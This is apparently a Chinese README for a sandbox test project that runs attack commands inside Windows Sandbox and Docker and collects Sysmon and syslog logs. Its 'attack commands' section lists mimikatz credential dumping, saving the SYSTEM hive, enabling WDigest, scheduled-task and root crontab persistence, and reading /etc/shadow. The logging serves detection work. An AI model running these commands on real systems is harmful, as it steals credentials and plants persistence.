 # sandbox_test

只需要下載src和test資料夾即可，project環境為windows 10 22H2 pro，需要開啟windows sandbox功能和docker

## 執行code
如果想要用pytest測試的話，使用以下架構:
```
-root(root資料夾不限名稱)
    -src
        -SandboxFiles
            mimikatz.exe
            Sysmon64.exe
            sysmonconfig.xml: 
            (sandbox.wsb): 由code自動產生
            (install_and_run.bat): 由code自動產生
            (log.xml): 由code自動產生
        Dockerfile
        sand.py
        (container_syslog.log): 由code自動產生
    -test
        test_sand_unit.py
        test_sand_integrated.py
```
在root資料夾下執行```pytest -vv --cov -p no:warnings```

如果要執行sand.py，把最後兩行註解取消掉再執行

## 攻擊指令

windows
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
copy %USERPROFILE%\Desktop\SandboxFiles\sysmonconfig.xml .

whoami

xcopy %USERPROFILE%\\Desktop\\SandboxFiles . /H /Y

reg save HKLM\SYSTEM C:\\system.save

reg add HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
     
setlocal enabledelayedexpansion

:: Get the current time
for /f "tokens=1-4 delims=:.," %%a in ("%time%") do (
    set /a HH=%%a, MM=%%b, SS=%%c, FF=%%d
)

:: Add 10 seconds
set /a MM+=1
if !MM! geq 60 (
    set /a MM-=60
    set /a HH+=1
    if !HH! geq 24 set /a HH-=24
)

:: Format the time with leading zeros
if !HH! lss 10 set HH=0!HH!
if !MM! lss 10 set MM=0!MM!
echo !HH!:!MM!
:: Create the scheduled task
schtasks /create /tn "MyTask" /tr "notepad.exe" /sc once /st !HH!:!MM! /f
```

linux
```
whoami
echo 'whoami'> tmp
cp tmp tmp2
sh < tmp2
cat /etc/shadow
echo \"echo hash_value > name.out\" | at now + 1 minute
echo \"*/2 * * * * root whoami > username\" >> /etc/crontab
```

## 有關log
log.xml是windows的log
container_syslog.log是linux的log
另外，執行code後，log的位置分別是```root/src/SandboxFiles/log.xml```和```root/src/container_syslog.log```
